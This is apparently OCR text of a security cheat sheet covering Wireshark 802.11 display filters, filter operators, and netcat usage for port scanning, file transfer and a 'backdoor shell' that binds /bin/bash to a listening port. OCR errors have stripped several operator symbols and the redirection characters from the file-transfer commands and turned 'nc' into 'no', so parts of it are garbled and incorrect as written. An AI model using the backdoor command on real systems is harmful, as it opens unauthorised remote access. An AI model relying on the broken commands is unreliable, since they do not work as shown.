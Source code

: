 wlan.fc.type_subtype eq4 (5-response)            802.11 probe request
wlan.fc.type_subtype eq8                         802.11 beacon
wlan.fc.type_subtype eq10                        802.11 disassociate
wlan.fc.type_subtype eq11 (12=deauthenticate)    802.11 authenticate


COMPARISON OPERATORS

eq OR == 
ne OR != 
gt OR
lt OR
ge OR = 
le OR =


LOGICAL OPERATORS

and OR && 
or OR ||
xor OR ^^
not OR !

NETCAT


BASICS

Connect to [TargetIP] Listener on [port]: 
$ nc [TargetIP] [port]

Start Listener:
$ nc -l -p [port]


PORT SCANNER

TCP Port Scanner in port range [startPort] to [endPort]: 
$ nc -v -n -z -w1 [TargetiP] [startPort]-[endPort]


FILE TRANSFERS

Grab a [filename] from a Listener:
1. Start Listener to push [filename]
$ no -l -p [port] [filename]
2. Connect to [TargetIP] and Retrieve [filename]
$ nc -w3 [TargetIP] [port]	[filename]

Push a [filename] to Listener:
1. Start Listener to pull [filename]
$ nc -l -p [port]	[filename]
2. Connect to [TargetIP] and push [filename]
$nc -w3 [TargetIP] [port]	[filename]


BACKDOOR SHELLS

Linux Shell:
$ nc -l -p [port] -e /bin/bash
